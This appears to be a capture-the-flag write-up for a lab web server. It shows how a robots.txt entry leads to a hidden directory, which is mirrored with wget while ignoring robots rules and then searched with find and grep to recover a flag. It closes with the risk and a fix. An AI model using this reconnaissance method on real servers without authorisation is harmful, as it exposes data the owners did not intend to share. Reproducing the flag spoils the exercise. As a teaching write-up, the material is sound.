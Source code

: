 # Hidden Directory

http://192.168.56.101/.hidden/

`robots.txt` contains

```
User-agent: *
Disallow: /whatever
Disallow: /.hidden
```

We already explored `/whatever` in admin

Visiting `/.hidden` shows us tons of directories

This will recursively download all directories for us to view locally

```
wget -e robots=off -r -nH --no-parent --reject="index.html*" 'http://192.168.56.101/.hidden/'
```

Enumerate directories to find the file without condescending French

```
$ find . -type f -name '*README' -exec grep -v ' ' {} ';'
99dde1d35d1fdd283924d84e6d9f1d820
```

Find name of file containing flag

```
$ grep -Rn . -e '99dde1d35d1fdd283924d84e6d9f1d820'
./.hidden/whtccjokayshttvxycsvykxcfm/igeemtxnvexvxezqwntmzjltkt/lmpanswobhwcozdqixbowvbrhw/README:1:99dde1d35d1fdd283924d84e6d9f1d820
```

## Risk

Sensitive information leak

## Fix

Hiding information by having too much of it to go through is not viable

Just don't put sensitive information on the server where the user can access it
